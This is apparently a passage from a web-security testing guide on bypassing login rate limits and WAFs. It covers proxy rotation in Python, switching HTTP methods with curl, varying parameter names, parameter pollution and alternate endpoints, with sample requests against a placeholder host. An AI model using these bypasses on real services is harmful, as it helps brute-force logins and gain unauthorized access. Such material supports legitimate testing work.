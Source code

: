 import requests

# List of proxies to rotate through
proxies = [
    {"http": "http://proxy1.com:8080"},
    {"http": "http://proxy2.com:8080"},
    {"http": "http://proxy3.com:8080"}
]

# Sending requests through different proxies
for proxy in proxies:
    response = requests.get("https://example.com/api", proxies=proxy)
    print(response.status_code)  # Print response status code
Avoid Rate Limits: By rotating IP addresses (via proxies), you can send more requests without triggering rate limits or getting blocked.
Bypass IP-based Restrictions: If the server is limiting access based on IP addresses, rotating proxies makes each request appear to come from a different IP.
Requesting with Different HTTP Methods
Some rate limiting mechanisms focus only on specific HTTP methods like GET or POST. Attackers can bypass this by making requests using different HTTP methods such as PUT, DELETE, or OPTIONS, depending on the server configuration you can try all methods in burpsuite repeater

curl -X POST https://target.com/login -d "user=admin&pass=1234"
curl -X GET "https://target.com/login?user=admin&pass=1234"
Parameter Name Variation
Some backends aren’t strict about parameter names and might still process the request correctly even with alternate names. This can help bypass input filters, WAFs or login restrictions.

username=admin&password=1234
user=admin&pass=1234
uname=admin&pwd=1234
login=admin&passwd=1234
u=admin&p=1234
email=admin&key=1234
id=admin&token=1234
Bypass Input Filters: Altering parameter names can avoid detection from basic input filters.
Evade WAF Detection: WAFs may block requests based on specific parameter names; variation can bypass this.
Parameter Pollution
Add duplicate or unexpected parameters. Observe if the backend processes only the first or last parameter or if it bypasses the rate limit.

POST /login HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

user=admin&user=admin2&pass=1234
Evade Rate Limiting: Adding duplicate parameters can confuse the system’s rate-limiting mechanism, allowing more requests than intended.
Exploit Application Logic: If the server incorrectly processes or ignores duplicate parameters, it could lead to security issues (e.g., unauthorized access).
Alternate Endpoints
Web apps often expose multiple endpoints for the same functionality (e.g., login), especially across different versions or platforms (web, mobile, API). Some of these may lack proper security checks, rate limiting or WAF rules. Find different API paths that do the same thing but aren’t rate-limited.
